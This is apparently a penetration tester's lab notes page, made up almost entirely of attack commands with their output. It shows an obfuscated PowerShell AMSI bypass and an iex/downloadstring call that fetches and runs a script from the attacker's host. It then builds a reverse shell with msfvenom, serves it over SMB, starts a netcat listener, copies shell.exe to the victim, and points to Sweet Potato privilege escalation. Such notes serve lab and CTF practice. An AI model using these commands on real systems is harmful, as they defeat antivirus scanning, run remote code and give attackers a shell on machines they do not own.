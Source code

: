 Bypass AMSI then bypass AMSI at .net level

> [[Defense Evasion#PowerShell]]

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell/ByPasses]
└─$ ls
amsi_net.txt  amsi_ps.txt

┌──(kali㉿kali)-[/opt/sectools/powershell/ByPasses]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
PS C:\windows\system32\inetsrv> $x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[
Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
PS C:\windows\system32\inetsrv> iex(new-object system.net.webclient).downloadstring('http://10.11.19.145/amsi_net.txt')
True
```

Prepare meterpreter stageless reverse shell

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.145 LPORT=1111 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

┌──(kali㉿kali)-[/tmp/www]
└─$ smbserver.py s . -smb2support -username s -password s
```

Start revshell handler

```bash
┌──(kali㉿kali)-[~/scripts]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
```

Download meterpreter stageless reverse shell

```bash
PS C:\windows\system32\inetsrv> net use \\10.11.19.145\s /user:s s
The command completed successfully.

PS C:\windows\system32\inetsrv> copy \\10.11.19.145\s\shell.exe C:\Programdata\shell.exe
```

Use Sweet Potato
